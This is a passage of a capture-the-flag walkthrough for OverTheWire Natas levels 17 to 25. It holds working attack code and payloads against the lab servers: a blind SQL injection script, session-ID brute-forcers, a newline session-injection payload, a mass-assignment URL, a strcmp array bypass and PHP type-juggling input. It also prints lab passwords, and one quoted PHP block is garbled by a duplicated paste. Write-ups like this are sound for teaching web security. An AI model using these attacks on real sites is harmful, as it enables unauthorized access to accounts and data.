    	
        inject_equal = 'natas18" AND BINARY substr(password, ' + str(position) + \
    ", 1) = '" + alphabet[index] + "'AND SLEEP(5) ##"
    	
        inject_less = 'natas18" AND BINARY substr(password, ' + str(position) + \
    ", 1) < '" + alphabet[index] + "'AND SLEEP(5) ##"

        if check(inject_equal, verbose):
    	return alphabet[index]
        elif check(inject_greater, verbose): 
    	return search(alphabet, index + 1, hi, position, verbose)
        elif check(inject_less, verbose):
    	return search(alphabet, lo, index - 1, position, verbose)
        else:
    	return "Something went wrong"
    	 
    position = 1
    password = ""
    verbose = False
    while True:

        result = search(alphabet, 0, len(alphabet)-1, position, verbose)	
        print(f"RESULT: { result } ") 
        if len(result) > 1:
    	break

        password += str(result)
        position += 1

    print(f"The password for natas18 is { password }")
    ```

- It is to be noted that while checking for the delay, if the `threshold` is set to a low value (say, 1), then, there will be an error simply because of random delays in the server response, unrelated to the delay set by the `SLEEP()` function.
- The output of the above code, obtained after a little more than an eternity, is as follows:

    

- Password

    xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP

## 19 Level 18 → Level 19

- The landing page for `natas18` tells us to login as the `admin` to retrieve the password for the next level. Obviously, we do not have the required credentials. The `php` back-end reveals a rather complex code. Let's break it down.
- At the very top of the `php` code, the variable `$maxid` is set to 640.
- `isValidAdminLogin()`:

    ```php
    function isValidAdminLogin()
        if($_REQUEST["username"] == "admin") {
        /* This method of authentication appears to be unsafe and has been disabled for now. */
            //return 1;
        }

        return 0;
    }
    ```

    This function always returns `0` as the portion that returns `1` has been commented out.

- `isValidID($id)`:

    ```php
    function isValidID($id)
        return is_numeric($id);
    }
    ```

    This function checks if the `$id` variable has a numeric value, and return `true` if it does, and `false` otherwise.

- `createID($user)`:

    ```php
    function createID($user)
        global $maxid;
        return rand(1, $maxid);
    }
    ```

    This function returns a random number between `1` and `$maxid` i.e., `640`. 

- `debug($msg)`:

    ```php
    function debug($msg)
        if(array_key_exists("debug", $_GET)) {
            print "DEBUG: $msg<br>";
        }
    }
    ```

    This function checks if there has been a `GET` request with the parameter `debug` and then, prints the debug message passed into this function.

- `my_session_start()`:

    ```php
    function my_session_start() { /* {{{ */
        if(array_key_exists("PHPSESSID", $_COOKIE) and isValidID($_COOKIE["PHPSESSID"])) {
        if(!session_start()) {
            debug("Session start failed");
            return false;
        } else {
            debug("Session start ok");
            if(!array_key_exists("admin", $_SESSION)) {
            debug("Session was old: admin flag set");
            $_SESSION["admin"] = 0; // backwards compatible, secure
            }
            return true;
        }
        }

        return false;
    }
    ```

    This function does the following:

    - Checks if the `PHPSESSID` cookie exists and has a numeric value. If not, it returns false. Otherwise it performs further checks:
    - If `session_start()` returns false i.e., if new session has not started, prints a message to that effect, and returns false.
    - If the session has started, it calls on `debug()` to print the okay-message. Then, it checks if `admin` is a key in `$_SESSION` and if so, it sets it to 0, and finally returns `true`.
- `print_credentials()`:

    ```php
    function print_credentials()
        if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
        print "You are an admin. The credentials for the next level are:<br>";
        print "<pre>Username: natas19\n";
        print "Password: <censored></pre>";
        } else {
        print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas19.";
        }
    }
    ```

    This function checks if the key `admin` exists in `$_SESSION` and that its value is set to `1`. If this is the case, it returns the credentials for the next level. Otherwise, it prints that the user has logged in as a regular user. 

- The "main" function:

    ```php
    $showform = true;
    if(my_session_start()) {
        print_credentials();
        $showform = false;
    } else {
        if(array_key_exists("username", $_REQUEST) && array_key_exists("password", $_REQUEST)) {
        session_id(createID($_REQUEST["username"]));
        session_start();
        $_SESSION["admin"] = isValidAdminLogin();
        debug("New session started");
        $showform = false;
        print_credentials();
        }
    }
    ```

    If the session has started, it calls the `print_credentials()` function.

    If not, it checks whether `username` and `password` keys exist in the `$_REQUEST`, and if it does, it calls `session_id()` with the `ID` created by `createID()` as the parameter. It then, starts the session and sets `$_SESSION["admin"]` to the value returned by `isValidAdminLogin()`, and then calls `print_credentials()` function.

- **Putting it all together**:
    - When we try to login `my_session_start()` is called first, that checks if the `PHPSESSID` cookie is present and its value is numeric. This evaluates to `false`.
    - It then creates a new session if `username` and `password` fields are present in our `POST` request and assigns it a new `session_id` — a value between `1` and `640`.
    - It also sets `$_SESSION["admin"]` to the value returned by `isValidAdminLogin()`. Since this function always returns 0, `$_SESSION["admin"]` is set to 0.
    - Now, the `print_credentials()` function is called. As the `$_SESSION["admin"]` is set to `0`, this function does not return the `admin` credentials.
    - In short, we cannot login as the `admin` directly unless we have the password. So, the only way to retrieve the password is to fake the `admin` login by finding the value of `PHPSESSID` cookie that corresponds to the `admin`.
    - When we login with the right value of this cookie, `my_session_start()` returns true and since, we are the `admin`, it does not reset `$_SESSION["admin"]` and its value remains `1`. This then permits `print_credentials()` function to provide us the credentials for the next level.
- We can brute force the `admin` value of the `PHPSESSID` cookie with the following code:

    ```python
    import re
    import requests

    auth = ('natas18', 'xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP')
    cookies = { "PHPSESSID" : '0' }
    ## `data` isn't really necessary
    data = { "username" : "admin", "password": "pass" }
    url = "http://natas18.natas.labs.overthewire.org/"

    for i in range(641):
        cookies["PHPSESSID"] = str(i)
        response = requests.post(url, data=data, cookies=cookies, auth=auth)

        if not re.search("logged in as a regular user", response.text):
    	print(f"PHPSESSID: { i }")
    	print(response.text)
    	break
    		
        print(f"Checked PHPSESSID: { i }")
    ```

- The output of the above code is as follows:

    

- Password

    4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs

## 20 Level 19 → Level 20

- The landing page for `natas19` says the following:

    > This page uses mostly the same code as the previous level, but session IDs are no longer sequential...

    We can no longer view the server-side `php` code, so we have to trust this message.

- We now login using some random value for `username` and `password` and inspect the cookies it creates. Each time a cookie is created, we note it down, then delete it and log in again. Here is a sample of the various cookies that were created:
  >>>  
        PHPSESSID: "34 35 2d61646d696e"
        PHPSESSID: "31 30 37 2d61646d696e"
        PHPSESSID: "39 36 2d61646d696e"
        PHPSESSID: "34 33 31 2d61646d696e"
        PHPSESSID: "33 35 34 2d61646d696e"
        PHPSESSID: "34 36 36 2d61646d696e"
        PHPSESSID: "35 37 35 2d61646d696e"
        PHPSESSID: "35 30 36 2d61646d696e"
        PHPSESSID: "33 36 2d61646d696e"
        PHPSESSID: "33 30 34 2d61646d696e"

    There is clearly a pattern to how these cookies are being set by the server. There is always an even number of characters, the first few pairs always begin with `3` and the characters used are all symbols used in hexadecimal number system. When we convert these hexadecimal values to `ascii`, we get a result similar to the following:

    

    Conversion of cookies (in hex) to ascii. Indeed, 31 is 1 in ascii, 30 is 0 and 37 is 7.

    Clearly the pattern is `<range(1, $max_id)>-admin`, assuming that the value of `$max_id` is still 640.

- Now, all we need to do is brute force the cookie value just like in the previous level. The code for this is as follows:

    ```python
    import re
    import requests

    auth = ('natas19', '4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs')
    cookies = { "PHPSESSID" : '1' }
    url = "http://natas19.natas.labs.overthewire.org/"

    for i in range(641):
        value = bytes(str(i) + '-admin', 'ascii')
        hexValue = value.hex()
        cookies["PHPSESSID"] = hexValue 
        response = requests.post(url, cookies=cookies, auth=auth)

        if not re.search("logged in as a regular user", response.text):
    	print(f"PHPSESSID: { i }")
    	print(response.text)
    	break
    		
        print(f"Checked PHPSESSID: { i }")
    ```

- The output for the above code is as follows:

    

- Password

    eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF

## 21 Level 20 → Level 21

- The landing page for `natas20` states the following:

    > You are logged in as a regular user. Login as an admin to retrieve credentials for natas21

- We also have the option to view the server side source code. The source code for this level is quite long. The relevant parts are as shown below:

    ```php
    function myread($sid) { 
        debug("MYREAD $sid"); 
        if(strspn($sid, "1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM-") != strlen($sid)) {
        debug("Invalid SID"); 
            return "";
        }
        $filename = session_save_path() . "/" . "mysess_" . $sid;
        if(!file_exists($filename)) {
            debug("Session file doesn't exist");
            return "";
        }
        debug("Reading from ". $filename);
        $data = file_get_contents($filename);
        $_SESSION = array();
        foreach(explode("\n", $data) as $line) {
            debug("Read [$line]");
        $parts = explode(" ", $line, 2);
        if($parts[0] != "") $_SESSION[$parts[0]] = $parts[1];
        }
        return session_encode();
    }

    function mywrite($sid, $data) { 
        // $data contains the serialized version of $_SESSION
        // but our encoding is better
        debug("MYWRITE $sid $data"); 
        // make sure the sid is alnum only!!
        if(strspn($sid, "1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM-") != strlen($sid)) {
        debug("Invalid SID"); 
            return;
        }
        $filename = session_save_path() . "/" . "mysess_" . $sid;
        $data = "";
        debug("Saving in ". $filename);
        ksort($_SESSION);
        foreach($_SESSION as $key => $value) {
            debug("$key => $value");
            $data .= "$key $value\n";
        }
        file_put_contents($filename, $data);
        chmod($filename, 0600);
    }

    function print_credentials()function print_credentials() { /* {{{ */
        if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
        print "You are an admin. The credentials for the next level are:<br>";
        print "<pre>Username: natas21\n";
        print "Password: <censored></pre>";
        } else {
        print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas21.";
        }
    }
        if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
        print "You are an admin. The credentials for the next level are:<br>";
        print "<pre>Username: natas21\n";
        print "Password: <censored></pre>";
        } else {
        print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas21.";
        }
    }
    ```

- The `my_write($sid, $data)` writes `$data` onto a file whose name is dictated by the `$sid` value (`/mysess_$sid`). `$sid` is, in fact, the value of the cookie set by the server on our browser to provide a unique value to our session (as revealed by other parts of the code), and `$data` contains the name we enter on the form.

    It is important to note that this function reads the `$data` in `$key`-`$value` pairs, and writes these values into the file created. In any normal instances, the `name` we enter into the form would be the `value` and `name` would be the key (as it is the name of the field in the HTML). We can use `debug` as a parameter in the url to take a look at this behavior:

    

    Notice the `debug` parameter in the url and `name`=> `hello` at the bottom of the page. Also notice the value of the cookie and the name of the session file created by `my_write()`.

- The `print_credentials()` function much like in the previous level, checks if the key `admin` exists in `$_SESSION` and if its value is set to `1`. In this case, the server provides us with the password to the next level. This time we can't just brute force the value of the `PHPSESSID` cookie, as it is used for a very different purpose here.
- We need to somehow place the `admin` key in `$_SESSION` and then, set its value to `1` to retrieve the password.
- The `my_read()` function operates in a way opposite to the `my_write()` function.  It checks if the `filename` corresponding to the `PHPSESSID` exists. If it doesn't, it tells us as much and returns nothing.

    If the file does exist, it reads the data from the file, one line at a time, splitting the line into 2 parts using the `space` character as the separator. The first part is stored as the `key` and the second part as the `value`, in `$_SESSION`.

    We have to somehow cause this function to store `admin` as the key and `1` as its value. 

- The obvious way would be to change the name of the form element from `name` to `admin` and then, entering `1` into the form. This, however, does not work!
- Since the key-value pairs are read and written one line at a time, one way to achieve our goal would be to write two lines, the first line would be the `value` for `name` and the second line would contain `admin` and `1` separated by a space that would form the next key-value pair. The url code for newline character is `%0A` and that for a space character is `%20`.
- The result of this is as follows:

    

    Writing two lines at a time

- From the `debug` output, we can see that the data has been written. Now, we have to reload this page, so that `my_read()` function is invoked and the `$_SESSION` is properly set for `print_credentials()` function.
- Reloading this page results in:

    

    And so we get the password. Also notice the debug-output for both the `my_read()` at the top and `my_write()` at the bottom.

- All this can also be done through code:

    ```python
    import requests

    url = "http://natas20.natas.labs.overthewire.org/"
    auth = ("natas20", "eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF")
    payload = "hacked\nadmin 1"
    data = { "name" : payload }

    session = requests.Session() ## to maintain the PHPSESSID cookie across the post and get reequests

    post_response = session.post(url, data=data, auth=auth)
    print(post_response.text) ## not necessary

    get_response = session.get(url, auth=auth)
    print(get_response.text)
    ```

- Password

    IFekPyrQXftziDEsUr3x21sYuahypdgJ

## 22 Level 21 → Level 22

- The landing page for `natas21` says the following:

    > Note: this website is colocated with [http://natas21-experimenter.natas.labs.overthewire.org](http://natas21-experimenter.natas.labs.overthewire.org/)
    You are logged in as a regular user. Login as an admin to retrieve credentials for natas22.

- There is nothing on this page to interact with and even the source code is not very insightful, except this part:

    ```php
    function print_credentials() {
        if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
        print "You are an admin. The credentials for the next level are:<br>";
        print "<pre>Username: natas22\n";
        print "Password: <censored></pre>";
        } else {
        print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas22.";
        }
    }
    ```

    As before, the `print_credentials()` function can get us what we want but there is no way of setting the value of `$_SESSION["admin"]`.

    However, this does tells us that this website is colocated with another website. When we open up this page, we see a neat CSS editor. And its source code is of importance. The source code is quite long, but here is the interesting part:

    ```php
    // if update was submitted, store it
    if(array_key_exists("submit", $_REQUEST)) {
        foreach($_REQUEST as $key => $val) {
        $_SESSION[$key] = $val;
        }
    }
    ```

- As the websites are colocated, it is only reasonable that they share the same value of the `PHPSESSID` cookie. This has the effect that setting `$_SESSION["admin"]` to `1` on the `experimenter` website does the same on the main website.
- The source code on the `experimenter` website says that the `submit` key must be present in the `POST` request. It performs no another checks and takes in any `key`- `value` pairs we might include in the `POST` request. This vulnerability can be exploited by updating the url as follows:

    natas21-experimenter.natas.labs.overthewire.org/index.php?submit&admin=1

    Now, when we open up the main page, we should be able to see the password to the next level. If this is not the case, we must ensure that the `experimenter` page and the `main` page have the same value of the `PHPSESSID` cookie.

    

    

    Notice the url and the value of `PHPSESSID` cookie in the above two images

- Password

    chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ

## 23 Level 22 → Level 23

- The landing page for `natas21` is essentially a blank page. But we do have an option to view the server side `php` source code.
- The source code has two parts:

    ```php
    <!-- Part One -->
    <?
    session_start();

    if(array_key_exists("revelio", $_GET)) {
        // only admins can reveal the password
        if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
        header("Location: /");
        }
    }
    ?>

    <!-- Part Two -->
    <?
        if(array_key_exists("revelio", $_GET)) {
        print "You are an admin. The credentials for the next level are:<br>";
        print "<pre>Username: natas23\n";
        print "Password: <censored></pre>";
        }
    ?>
    ```

- The code looks fairly straightforward. The second part of the code tells us that all we need to do to retrieve the password is to send a `GET` request with the `revelio` parameter. However, appending `?revelio` to the end of the `natas22` url does not work.
- This is because of the part one of the above code. Due to sequential execution, the first part is executed first. This part first checks if the `revelio` parameter exists in the `GET` request and then, if the user invoking it is on an `admin` session. Unlike in the previous levels we don't have an option to set the `$_SESSION["admin"]` value, and so this part of the URL changes the `GET` parameter from `?revelio` to just `/`. This essentially amounts to a server-side redirection. As such, it does not meet the requirements for the second part and so, nothing is displayed.
- We can bypass this by using `Burp Suite`. Using `Burp Suite`, in repeater mode, we can manually change the `GET` header to have the `revelio` parameter. **We can also choose whether to follow the redirection.** Following redirection is the default behavior in any browser but we can prevent this from happening in `Burp Suite`, allowing us to view the contents of the `admin` page.

    

    Burp Suite Session to obtain password

- Password

    D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE

## 24 Level 23 → Level 24

- The landing page for `natas23` shows a form for password and also allows us to view the `php` source code. The source code is as follows:

    ```php
    <?php
        if(array_key_exists("passwd",$_REQUEST)){
            if(strstr($_REQUEST["passwd"],"iloveyou") && ($_REQUEST["passwd"] > 10 )){
                echo "<br>The credentials for the next level are:<br>";
                echo "<pre>Username: natas24 Password: <censored></pre>";
            }
            else{
                echo "<br>Wrong!<br>";
            }
        }
        // morla / 10111
    ?> 
    ```

- The code first checks if the `passwd` key exists in our request i.e., our `POST` request on the form.
- Then it uses the `strstr` function to check if the string `iloveyou` exists in the password AND if the numerical value of the `passwd` is greater than 10!
- There seems to be a contradiction here as there are two comparisons being done on `$_REQUEST["passwd"]` — one as a string and one as a number. The `passwd` entered into the form field is most definitely a string, as is the case with any `POST` request parameters. `php` has a funny way of comparing between strings and numbers. Take a look at the following example:

    ```php
    var_dump('m' > 10) // converts 'm' to numeric i.e., 0 and compares, prints bool(false)
    var_dump('11' > 10) // converts '11' to numeric i.e., 11 and compares, prints bool(true)
    var_dump('11k' > 10) // prints bool(true)
    var_dump('k11' > 10) // prints bool(false)
    ```

    From the above example, we can see that `php` tries to convert a string to its equivalent numeric when comparing stings and numbers. If the string begins with numbers, the conversion results in a number equal to the value that the string begins with, and if the string does not start with numbers, the conversion results in `0`.

- Thus, the following value of `passwd` works:

    passwd: 11iloveyou

    Here, `iloveyou` exists within the string and so satisfies the first condition.

    While comparing, `php` converts the string `11iloveyou` to `11` which is greater than 10, and so, satisfies the second condition.

- Password

    OsRmXFguozKpTZZ5X14zNO43379LZveg

## 25 Level 24 → Level 25

- The landing page for `natas24` shows a password entry form, and a look at the `php` source code shows the following:

    ```php
    <?php
        if(array_key_exists("passwd",$_REQUEST)){
            if(!strcmp($_REQUEST["passwd"],"<censored>")){
                echo "<br>The credentials for the next level are:<br>";
                echo "<pre>Username: natas25 Password: <censored></pre>";
            }
            else{
                echo "<br>Wrong!<br>";
            }
        }
        // morla / 10111
    ?>
    ```

- We can see that the back-end uses, `strcmp` function to check if the password we entered into the form matches the actual password.
- The `strcmp` function returns
    - `0` if `first_string` == `second_string`,
    - `-1` if `first_string` < `second_string`, and
    - `1` if `first_string` > `second_string`.
- Since the value we pass into the field is always a string, and **must** be equal to the actual password for the server to reveal the credentials, this *seems* invulnerable.
- However, the `strcmp()` function is not fool-proof. If the entities being compared are not both strings, then the return value is extremely unpredictable, ranging from low negative values like `-2` and `-3` to high positive values like `2` and `3`. It might even return `0`!
- So, we exploit this vulnerability by passing in `passwd` parameter as an array, as follows:

    http://natas24.natas.labs.overthewire.org/?passwd[]=hacked

    As `passwd[]` is an array, and it is being compared to the actual `password` which is presumably a string, the behavior of `strcmp` becomes erratic and may return `0` (which indeed, it does, along with a *warning* message).

- Password

    GHF6X7YwACaYYssHVY05cFq83hRktl4c

## 26 Level 25 → Level 26

- The landing page for `natas25` shows a long piece of rather morose text and an option to change its language, between English and Deutsch.
- The source code for this level is quite long. But here are the relevant parts:

    ```php
    function safeinclude($filename){
